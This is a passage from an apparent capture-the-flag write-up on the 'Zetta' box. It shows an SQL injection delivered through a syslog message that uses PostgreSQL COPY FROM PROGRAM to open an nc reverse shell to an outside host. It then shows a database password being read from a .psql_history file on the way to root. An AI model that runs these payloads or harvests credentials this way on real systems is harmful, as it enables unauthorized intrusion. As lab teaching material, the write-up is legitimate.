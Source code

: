 This is likely the result of a timeout in the database. I’ll run it again, with `nc` in the background:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443 & \$$; -- "

```

No errors, and the shell works!

## Shell as root

### Enumeration

Either way, I’m on as postgres. In the home directory, there’s a couple history files that aren’t redirected to `/dev/null`:

```

postgres@zetta:/var/lib/postgresql$ ls -la
total 24
drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
-rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
-rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
drwx------  2 postgres postgres 4096 Sep  1 14:47 .ssh

```

The `.lesshst` file isn’t that interesting, but there’s a password in `.psql_history`:

```

postgres@zetta:/var/lib/postgresql$ cat .psql_history 
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';

```

### su
